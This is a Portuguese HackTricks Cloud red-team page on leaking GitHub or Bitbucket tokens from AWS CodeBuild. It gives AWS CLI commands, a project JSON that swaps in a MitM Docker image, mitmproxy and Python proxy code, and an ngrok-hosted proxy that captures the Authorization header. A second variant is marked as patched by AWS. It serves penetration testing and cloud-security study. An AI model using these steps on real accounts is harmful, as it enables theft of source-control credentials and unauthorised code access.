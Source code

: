 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recuperar Tokens Configurados do Github/Bitbucket

Primeiro, verifique se há credenciais de origem configuradas que você poderia vazar:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Se você descobrir que a autenticação para, por exemplo, Github está configurada na conta, você pode **exfiltrar** esse **acesso** (**token GH ou token OAuth**) fazendo com que o Codebuild **use uma imagem docker específica** para executar a construção do projeto.

Para isso, você poderia **criar um novo projeto Codebuild** ou alterar o **ambiente** de um existente para definir a **imagem Docker**.

A imagem Docker que você poderia usar é [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta é uma imagem Docker muito básica que irá definir as **variáveis de ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Isso permitirá que você intercepte a maior parte do tráfego do host indicado em **`https_proxy`** e **`http_proxy`** e confie no SSL CERT indicado em **`SSL_CERT_FILE`**.

1. **Crie e faça upload da sua própria imagem Docker MitM**
* Siga as instruções do repositório para definir o endereço IP do seu proxy e configurar seu certificado SSL e **construa a imagem docker**.
* **NÃO DEFINA `http_proxy`** para não interceptar solicitações ao endpoint de metadados.
* Você poderia usar **`ngrok`** como `ngrok tcp 4444` para definir o proxy para o seu host.
* Uma vez que você tenha a imagem Docker construída, **faça upload para um repositório público** (Dockerhub, ECR...)
2. **Defina o ambiente**
* Crie um **novo projeto Codebuild** ou **modifique** o ambiente de um existente.
* Defina o projeto para usar a **imagem Docker gerada anteriormente**.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Defina o proxy MitM no seu host**

* Como indicado no **repositório do Github**, você poderia usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
A **versão do mitmproxy utilizada foi 9.0.1**, foi relatado que com a versão 10 isso pode não funcionar.
{% endhint %}

4. **Execute a construção e capture as credenciais**

*   Você pode ver o token no cabeçalho **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Isso também pode ser feito a partir da aws cli com algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Essa vulnerabilidade foi corrigida pela AWS em algum momento da semana de 20 de fevereiro de 2023 (acho que na sexta-feira). Portanto, um atacante não pode mais abusar disso :)**
{% endhint %}

Um atacante com **permissões elevadas em um CodeBuild poderia vazar o token do Github/Bitbucket** configurado ou, se as permissões foram configuradas via OAuth, o **token OAuth temporário usado para acessar o código**.

* Um atacante poderia adicionar as variáveis de ambiente **http\_proxy** e **https\_proxy** ao projeto CodeBuild apontando para sua máquina (por exemplo `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Em seguida, mudar a URL do repositório do github para usar HTTP em vez de HTTPS, por exemplo: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Em seguida, executar o exemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porta apontada pelas variáveis de proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, clique em **Build the project**, as **credenciais** serão **enviadas em texto claro** (base64) para a porta mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Agora um atacante poderá usar o token de sua máquina, listar todos os privilégios que possui e (ab)usar mais facilmente do que usando o serviço CodeBuild diretamente.
{% endhint %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
